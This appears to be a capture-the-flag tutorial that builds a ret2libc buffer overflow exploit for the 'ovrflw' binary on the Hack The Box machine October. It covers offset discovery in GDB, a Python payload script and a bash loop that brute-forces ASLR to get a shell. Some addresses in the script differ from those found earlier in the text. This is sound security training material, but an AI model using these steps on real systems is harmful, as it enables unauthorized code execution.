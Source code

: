 # Buffer Overflows

## Return Oriented Programming (ROP) Buffer Overflow
The following commands can be used in a Return Oriented Programming (ROP) buffer overflow attack to bypass NX/DEP protection.  The following example makes use of the `ovrflw` ELF Linux binary found on the October Hack The Box machine.  All tools necessary are built into Kali Linux.

The ovrflw binary is 32 bit and has NX enabled and the system has Address Space Layout Randomisation enabled.


### Finding the point that overwrites EIP CPU Register

The following command can be used to generate a 500 character non repeating pattern to overlow the program:

```/usr/bin/msf-pattern_create -l 500```

The resulting output can be fed as an input to the binary:

```./ovrflw Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0A...```

You can increase the length of the pattern generated by the `/usr/bin/msf-pattern_create` command and send it to the program, until the program generates a `segmentation fault` error.

Upon the generation of a `segmentation fault`being thrown by the overflw program, it can then be ran within the debugger GDB to find what section of the pattern overwrote the EIP CPU register:

```gdb ./ovrflw```

Now a break point for the `main()` function can be added, the the program will pause once run within GDB.  The following code will add the break point:

```(gdb) b main```

The program can now be run by pressing the "r" key followed by the none repeating string of characters (in this case 500):

```r Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4A...```

To continue the exection of the program the "c" key can be pressed.  This will result in a "
Program received signal SIGSEGV, Segmentation fault." error.

To view the curent values of the registers within GDB use the command:
`info registers`

Take the value held in the EIP register.  In this case it is `0x64413764`.  This value can be passed into msf-pattern_offset to find out the offset necessary to crash the program:

```msf-pattern_offset -q 0x64413764```

This showed the offset at the point EIP was overwritten was 112.  This means that 112 characters can be passed to the program to generate a segmentation fault.  

### Exploiting the buffer overflow using python and bash

Now three values are necessary to exploit the buffer overflow.  The addresses of system, exit and "/bin/sh" - in that order.

GDB can be used to find the address of system by running the following commands
``` gdb ./ovrflw 
b main
r
p system 
```

The `p system` command will give the address of where `system` is located, which in this case is `0xb765c310`.

Now to get the offset of "/bin/sh". GDB can be used to search for this value using the find command:

`find 0xb7646310, +9999999, "/bin/sh"`

The command will start at the system address and look for the pattern "/bin/sh" and then return the address offset once found.  The +999.. tells the command how far to look ahead from the system address. This can be incremented until the address is found.

The address of "/bin/sh" was found to be `0xb777ebac`.

The exit address can be found using the following command in GDB:

`p exit `

This gives the exit address 0xb764f260

The exploit will be 112\*characters + system address + exit address + "/bin/sh" address.  The following python exploit code contains the aforementioned structure.  Note that the struct library is used to put the data in little endian format, denoted by the "<I".  For instance, this would convert the exit address 0xb764f260 to 0x60f264b7.


#### Python Exploit Code
Save the code into a file named exploit.py and make it executable using `chmod +x`.
```#!/usr/bin/python

import struct

system_mem = struct.pack("<I", 0xb7646310)
binsh_mem = struct.pack("<I", 0xb7768bac)
exit_mem = struct.pack("<I", 0xb7639260)

payload = "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaab"
payload += system_mem
payload += exit_mem
payload += binsh_mem

print(payload)
```

### Bypassing Address Space Layout Randomisation (ASLR)

ASLR randomises the position of the executable and the libraries it uses in Random Access Memory (RAM), in an effort to secure against buffer overflows.  

This can be bypassed by executing a program a number of times, until the same address values are reused.  The following Linux bash command will run the `ovrflw` program and give the python script as the input.  The program will be executed 512 times, in an effort to trigger the buffer overlow using the addresses taken from within GDB:

```for i in `seq 0 500`; do /usr/local/bin/ovrflw `python exploit.py`;done```



